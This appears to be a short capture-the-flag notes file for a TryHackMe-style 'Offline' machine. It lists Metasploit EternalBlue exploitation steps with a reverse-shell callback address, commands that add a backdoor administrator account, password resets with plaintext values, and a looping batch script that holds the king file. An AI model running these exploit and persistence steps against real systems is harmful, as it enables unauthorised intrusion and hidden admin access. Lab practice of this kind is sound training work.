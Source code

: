 # Offline
1. http://offline.thm/Scarras_Super_Secret_Password.txt
2. `sudo msfconsole -q`
3. `use exploit/windows/smb/ms17_010_psexec`
4. `set RHOST offline.thm`
5. `set LHOST 10.8.85.10`
6. `exploit` and `shell`
7. `net user lomar tomarkomar /add`
8. `net localgroup administrators lomar /add`
## Defend
1. `net user poki HenEwoFYPn4Scxq97M`
2. `net user scarra Fl3fgJWQHu2M82oI40`
3.  `Disable-WindowsOptionalFeature -Online -FeatureName smb1protocol`
```bash
@echo off
:x
attrib -a -s -r -i C:\Users\Administrator\king-server\king.txt&echo YourNickHere > C:\Users\Administrator\king-server\king.txt&attrib +a +s +r +i C:\Users\Administrator\king-server\king.txt
goto x
```
